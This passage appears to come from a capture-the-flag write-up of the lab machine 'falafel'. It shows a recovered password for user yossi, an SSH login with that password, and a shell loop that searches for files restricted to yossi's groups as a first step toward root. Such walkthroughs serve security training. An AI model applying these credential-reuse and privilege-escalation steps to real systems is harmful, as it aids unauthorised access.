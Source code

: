 That happens to have yossi’s password on it.

    
    
    root@kali# cat yossi.password
    MoshePlzStopHackingMe!
    
    root@kali# cat yossi.password | xclip; ssh yossi@10.10.10.73
    yossi@10.10.10.73's password:
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    0 packages can be updated.
    0 updates are security updates.
    
    
    Last login: Fri May 18 01:35:48 2018 from 10.10.14.40
    yossi@falafel:~$
    

## Find root.txt

### Searching Groups

Because we are looking for things that yossi has access to that moshe doesn’t,
we’ll start by looking for files in yossi’s groups that are not world
readable:

    
    
    yossi@falafel:/dev/shm/.d$ groups
    yossi adm disk cdrom dip plugdev lpadmin sambashare
    
    yossi@falafel:/dev/shm/.d$ for group in $(groups); do echo ${group}; find / -group ${group} ! -type d ! -perm -o=r -exec ls -la {} \; 2>/dev/null | grep -vF " /proc" > ${group}; done
    yossi
    adm
    disk
    cdrom
    dip
    plugdev
    lpadmin
    sambashare
    
    yossi@falafel:/dev/shm/.d$ ls -l
    total 12
    -rw-rw-r-- 1 yossi yossi 1836 May 18 13:07 adm
    -rw-rw-r-- 1 yossi yossi  106 May 18 13:07 cdrom
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 dip
    -rw-rw-r-- 1 yossi yossi  795 May 18 13:07 disk
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 lpadmin
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 plugdev
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 sambashare
    -rw-rw-r-- 1 yossi yossi    0 May 18 13:07 yossi
    